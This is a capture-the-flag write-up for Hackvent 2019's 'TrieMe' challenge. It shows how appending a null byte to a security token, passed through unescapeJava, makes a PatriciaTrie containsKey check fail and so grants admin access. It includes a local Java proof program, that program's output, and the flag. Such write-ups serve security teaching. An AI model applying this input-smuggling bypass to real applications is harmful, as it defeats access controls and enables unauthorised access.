

## HV19.13 TrieMe

Switzerland's national security is at risk. As you try to infiltrate a secret spy facility to save the nation you stumble upon an interesting looking login portal.

Can you break it and retrieve the critical information?

### Resources

- Facility: http://whale.hacking-lab.com:8888/trieme/
- [HV19.13-NotesBean.java.zip](./34913db9-fd2a-43c8-b563-55a1d10ee4cb.zip)

### Solution

For this challenge, we get access to a webpage with a single input field, and some [Java Code](./34913db9-fd2a-43c8-b563-55a1d10ee4cb/NotesBean.java). The code represents a session scoped Java Bean, which probably handles all the incoming requests.  We see that for each client, the app creates a new session with a [PatriciaTrie](https://commons.apache.org/proper/commons-collections/apidocs/org/apache/commons/collections4/trie/PatriciaTrie.html). This special sort of tree stores the data in inner leaves, and not only in leaves. Therefore, it requires less memory to store the same data. Morevover, the app automatically stores a security token (`auth_token_4835989`) in the trie. 

When submitting a request, we assume that our input gets passed to the `addTrie` method, which adds it to the trie in the following way: 

```java
public void setTrie(String note) {
	trie.put(unescapeJava(note), 0);
}
```

Then, the application checks if the current session has admin permission, which means that the trie does not contain a security token. If that is the case, it returns the flag. However, at a first glance this seems to be almost impossible, because whenever we make a new request, the security token gets automatically inserted into the trie. Our only way to interact with the trie is by inserting new items. After digging through the Wikipedia pages and the Java-Documentation for quite a while, I learned that it could be possibly to trick the `containsKey` check by inserting items which are almost equal to the security token, but get matched before. Also, the `unescapeJava` call in the `setTrie` method looks very suspicious. Probably, we need to add some control characters to perform this task.

To simplifiy my testing procedure, I created a small Java-Program which mimics the server-side behavior. After some tries, I discovered that appending a null-byte to the auth token does the trick:  `auth_token_4835989\0`

The [final program](./Day13/src/at/hackvent19/Main.java) to verify this behavior looks as follows: 

```java
package at.hackvent19;

import static org.apache.commons.lang3.StringEscapeUtils.unescapeJava;

import org.apache.commons.collections4.trie.PatriciaTrie;

public class Main {
	private static final String securitytoken = "auth_token_4835989";

	@SuppressWarnings("deprecation")
	public static void main(String[] args) {
		PatriciaTrie<Integer> trie = new PatriciaTrie<Integer>();
		trie.put(securitytoken, 0);
		String input = "auth_token_483598\u0039";
		input = "auth_token_4835989\0";

		trie.put(unescapeJava(input), 0);

		System.out.println(unescapeJava(input));
		System.out.println(unescapeJava(input).equals(securitytoken));
		
		System.out.println("Contains input: " + trie.containsKey(input));
		System.out.println("Contains escaped input: " + trie.containsKey(unescapeJava(input)));
		System.out.println("Contains token: " + trie.containsKey(securitytoken));
	}

}
```

```
auth_token_4835989
false
Contains input: true
Contains escaped input: true
Contains token: false
```



**Flag:** HV19{get_th3_chocolateZ}
